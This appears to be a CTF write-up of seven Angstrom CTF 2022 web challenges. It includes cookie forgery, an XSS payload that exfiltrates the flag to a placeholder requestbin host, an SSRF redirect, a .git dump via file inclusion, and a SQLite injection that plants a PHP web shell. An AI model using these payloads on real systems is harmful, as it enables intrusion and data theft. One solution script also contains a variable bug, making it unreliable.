








# Angstrom CTF 2022 - Web
--------------------------

## 1- Auth-Skip
#### about :
- Type: web 
- Level: easy
- Points : 50

<center></center>

Easy challenges, just login with cookie user : admin and you get the flag

```python
import requests

URL = 'https://auth-skip.web.actf.co/'

cookies = {'user':'admin'}

r = requests.get(URL, cookies=cookies)
print(r.text)
```

**actf{passwordless_authentication_is_the_new_hip_thing}**

## 2- crumbs
#### about :
- Type: web 
- Level: easy
- Points : 50


<center></center>

if we look at teh source code : 

```js
const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

const paths = {};
let curr = crypto.randomUUID();
let first = curr;

for (let i = 0; i < 1000; ++i) {
    paths[curr] = crypto.randomUUID();
    curr = paths[curr];
}

paths[curr] = "flag";

app.use(express.urlencoded({ extended: false }));

app.get("/:slug", (req, res) => {
    if (paths[req.params.slug] === "flag") {
        res.status(200).type("text/plain").send(flag);
    } else if (paths[req.params.slug]) {
        res.status(200)
            .type("text/plain")
            .send(`Go to ${paths[req.params.slug]}`);
    } else {
        res.status(200).type("text/plain").send("Broke the trail of crumbs...");
    }
});
```
it seems like a serie of random slugs ,we need to keep sending the slug we received in another requests on the same **session** , my code : 
```python
import requests as rq 
s= rq.Session()
rs = s.get("https://crumbs.web.actf.co" , verify=True)
while True : 
    print(rs.text)
    rs = s.get("https://crumbs.web.actf.co/"+rs.text[6:] , verify=True)
```

## 3- Xtra Salty Sardins   
#### about :
- Type:  web
- Level: medium 
- Points : 70

<center></center>

As the name says , it is an XSS vulnerabilty , we just need to bypass some checks , the final payload is : 

```html
<script><script>fetch(`/flag`).then(r=>r.text()).then(t=>fetch(`https://[YOUR_REQUESTBIN]?cc=`+btoa(t)))</script>
```

**actf{those_sardines_are_yummy_yummy_in_my_tummy}**


## 4- Art Gallery
#### about :
- Type: web 
- Level: medium
- Points : 130

<center></center>

this one consist of a local file inclusion, and we try too get the **.git** folder, I used git-dump `git-dumper https://art-gallery.web.actf.co/gallery?member=../.git/ outpu -r 4` 

and checking logs I found the flag

<center></center>

## 5- School Unblocker
#### about :
- Type: web 
- Level: medium
- Points : 130

<center></center>

It's a website thet gets you the content of any url , so we try to get the /flag , using a Redirect requests 

in our server : 
```php
<?php
header("Location: http://localhost:8080/flag",true,307);
?>
```
and we send a request 
```python
import requests

URL = 'https://school-unblocker.web.actf.co/proxy'
data = {"url":"http://SERVER"} 

r = requests.post(URL, data=data)
print(r.text)
```

## 6- Secue Vault
#### about :
- Type: web 
- Level: hard
- Points : 130

<center></center>

solution code : 
```python
import requests

URL = 'https://secure-vault.web.actf.co'

def register(username,password):
    data = {"username":username,"password":password}
    req = requests.post(URL+'/register', data=data,allow_redirects=False)
    return req.cookies['token']

def deleteToken(token):
    cookies = {'token':token}
    req = requests.post(URL+'/delete',cookies=cookies)

def getFlag(token):
    cookies = {'token':token}
    req = requests.get(URL+'/vault',cookies=cookies)
    return r.text

if __name__ == '__main__':
    token = register("aynkl","admin")
    deleteToken(token)
    print(getFlag(token))
```

## 7- No Flags?
#### about :
- Type: web 
- Level: hard
- Points : 130

<center></center>

an obvious sql injection but teh flag isn't in a databases , we will try to escalate to an RCE , with ATTACH in sqlite  , the payload is as follows : 

```html
web');ATTACH DATABASE '/var/www/html/abyss/web1.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?php system($_GET["cmd"]);?>
```

then we try to visite the : https://no-flags.web.actf.co/abyss/web1.php?cmd=/printflag;

**actf{why_do_people_still_use_php}**